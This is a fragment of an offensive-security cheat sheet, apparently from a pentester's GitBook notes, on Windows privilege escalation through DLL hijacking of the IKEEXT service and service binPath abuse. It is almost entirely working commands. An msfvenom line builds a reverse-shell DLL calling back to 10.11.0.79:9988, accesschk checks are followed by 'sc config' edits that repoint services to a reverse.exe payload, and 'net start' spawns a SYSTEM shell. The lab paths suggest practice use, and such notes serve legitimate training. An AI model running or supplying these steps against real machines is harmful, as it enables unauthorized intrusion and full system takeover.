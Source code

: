 	# if you have RDP, you can use Process Monitor from the systinternals suite 
	# check in the registry if any dll is loaded ("ServiceDLL")
	# search for the location of the DLL
	dir wlbsctrl.dll /s
# check if the service restarts at boot time 
sc qc IKEEXT 
	START_TYPE:    2 AUTO_START
# generate malicious DLL
msfvenom windows/shell_reverse_tcp lhost=10.11.0.79 lport=9988 -o &#x3C;name of hijackable dll>.dll
# place dll in writable path folder
# reboot system / restart service
</code></pre>
{% endtab %}

{% tab title="binPath" %}
{% code overflow="wrap" %}
```bash
accesschk.exe /accepteula -uwcqv Users * # replace Users for any other privileged account we possess if so / also other nomenclatures such as Everyone, Authenticated Users...
 .\accesschk64.exe /accepteula -qlc WinService
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
# If I cannot list running services -> try to exploit VMTools or VSS services blindly??


#In case I can create my own service (if not, I will change an existing one)
sc.exe create $SERVICE_NAME binPath=""
#If I cannot and I have to use a running service -> list services
#If I cannot list running services -> use VMTools or VSS blindly

# Find all services (daclsvc as example) and check the "user" account's permissions:
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
# "user" account can change the service config (SERVICE_CHANGE_CONFIG)!!!
# Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
sc qc daclsvc
# Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
# Start a listener and then start the service to spawn a reverse shell:
net start daclsvc
```
{% endcode %}
{% endtab %}
